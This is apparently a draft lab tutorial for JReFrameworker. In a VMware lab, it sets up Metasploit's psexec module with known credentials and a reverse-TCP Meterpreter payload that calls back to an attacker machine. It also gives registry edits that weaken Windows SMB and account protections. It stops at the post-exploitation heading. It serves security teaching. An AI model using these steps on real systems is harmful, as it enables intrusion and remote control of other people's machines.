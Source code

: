 ```yaml
---
layout: post
title: Payload Deployment
draft: true
---
```


This tutorial demonstrates how to modify a victim machine's runtime using a JReFrameworker module.

If you haven't already, you should complete the first two tutorials ([Hello World](./hello-world) and [Hidden File](./hidden-file)) to become familiar with the basics of JReFrameworker.

<a name="Setup"></a>

## Lab Setup

You will also need to setup a small laboratory test environment that includes the following.

1. A victim machine (this tutorial uses a fresh install of Windows 7 SP1 x64 English edition in a virtual machine, but any OS capable of running Java will work).
2. An attacker machine with [Metasploit](https://www.metasploit.com/) installed (this tutorial uses a [Kali Linux virtual machine](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) version 2016.2).
3. An installation of JReFrameworker (this tutorial uses the host machine, but any OS that can run [Eclipse](https://eclipse.org/) with JReFrameworker installed will work).

For this tutorial we will be using [VMWare](https://www.vmware.com) virtual machines, but [Virtualbox](https://www.virtualbox.org) is a good free alternative to VMWare.

Our victim machine was created with an Administrator account named `Victim` and password `badpass`. Log into the machine. Since Java is not installed by default, we will need to install the runtime environment. You can download the standard edition of Java directly from [Oracle](http://www.oracle.com/technetwork/java/javase/downloads/index.html) or by using the [ninite.com](https://ninite.com/) installer. 

After installing Java, we set out virtual machines to `Host only` mode with our victim at `192.168.115.129` and our attacker at `192.168.115.128`. Double check that you know the IP addresses of each machine and that each machine can ping the other. If Kali cannot ping the Windows virtual machine, you may need to disable or specifically allow connections through the Windows firewall.

<p>
  <center>
    <a href="../images/payload-deployment/windows-network-zoom.png" data-lightbox="windows-network" data-title="Windows Network">
      <img src="../images/payload-deployment/windows-network.png" alt="Windows Victim Network" />
      <figcaption>Windows Victim Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

<p>
  <center>
    <a href="../images/payload-deployment/kali-network-zoom.png" data-lightbox="kali-network" data-title="Kali Network">
      <img src="../images/payload-deployment/kali-network.png" alt="Kali Attacker Network" />
      <figcaption>Kali Attacker Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

The next section continues the lab setup towards getting an active [Metasploit Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) session on the victim machine. If your lab setup is different and you have a working exploit already, skip to the [Post Exploitation](#PostExploitation) section below.

<a name="Exploitation"></a>

## Exploitation

Since we already know the credentials for the victim machine, we will be using Metasploit's [psexec (pass the hash) module](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/). In Kali, open the Metasploit framework console by typing `msfconsole` in the terminal. 

<p>
  <center>
    <a href="../images/payload-deployment/msfconsole-zoom.png" data-lightbox="msfconsole" data-title="Open msfconsole">
      <img src="../images/payload-deployment/msfconsole.png" alt="Open msfconsole" />
      <figcaption>Open msfconsole (click to zoom)</figcaption>
    </a>
  </center>
</p>

Within the Metasploit framework console, load the psexec exploit module by typing `use exploit/windows/smb/psexec`.

<p>
  <center>
    <a href="../images/payload-deployment/load-exploit-zoom.png" data-lightbox="load-exploit" data-title="Load Exploit">
      <img src="../images/payload-deployment/load-exploit.png" alt="Load Exploit" />
      <figcaption>Load exploit (click to zoom)</figcaption>
    </a>
  </center>
</p>

Type `show options` to view the exploit configuration parameters.

<p>
  <center>
    <a href="../images/payload-deployment/exploit-options-zoom.png" data-lightbox="exploit-options" data-title="Exploit Options">
      <img src="../images/payload-deployment/exploit-options.png" alt="Exploit Options" />
      <figcaption>Exploit Options (click to zoom)</figcaption>
    </a>
  </center>
</p>

Set the remote host to be the IP address of the victim machine by typing `set RHOST 192.168.115.129`.

Set the username to authenticate as by typing `set SMBUser Victim`. Note that you may need to replace `Victim` with the Windows username you used to configure your virtual machine with during setup.

Set the password to authenticate with by typing `set SMBPass badpass`. Again you may need to replace `badpass` with the actual password you used during setup.

Finally let's configure a reverse TCP Meterpreter payload that will execute Meterpreter on the victim machine and connect back to our attacker machine with the active session. Configure the payload by typing `set PAYLOAD windows/meterpreter/reverse_tcp`.

Set the outbound Meterpreter connection address to be the local host (the IP address of the attacker machine) by typing `set LHOST 192.168.115.128`.

Set the outbound Meterpreter connection port to be port 443 (https) by typing `set LPORT 443`.

<p>
  <center>
    <a href="../images/payload-deployment/exploit-parameters-zoom.png" data-lightbox="kali-network" data-title="Set Exploit Parameters">
      <img src="../images/payload-deployment/exploit-parameters.png" alt="Set Exploit Parameters" />
      <figcaption>Set Exploit Parameters (click to zoom)</figcaption>
    </a>
  </center>
</p>

Finally run the exploit by typing `exploit`.

If the exploit failed with error code `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` you may need to edit a registry setting on the Window's victim. Using Window's *regedit* tool navigate to the registry key, **"HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters"** on the target systems and setting the value of **"RequireSecuritySignature"** to **"0"**. Note that while some registry keys may be case sensitive, these keys do not appear to be case sensitive. This registry edit disables the group policy requirement that communications must be digitally signed. 

You may also need to add a new registry key under **"HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"**. Setting  the key to be a DWORD (32-bit) named **"LocalAccountTokenFilterPolicy"** with a value of **"1"**. This edit allows local users to perform administrative actions.

After setting the registry keys, rerun the exploit in Kali. If you are still not successful, try restarting the Windows machine and double checking your exploit configuration parameters by typing `set` to view the current values.

If the exploit was successful you will see that one new session was created. 

<a name="PostExploitation"></a>

## Post Exploitation
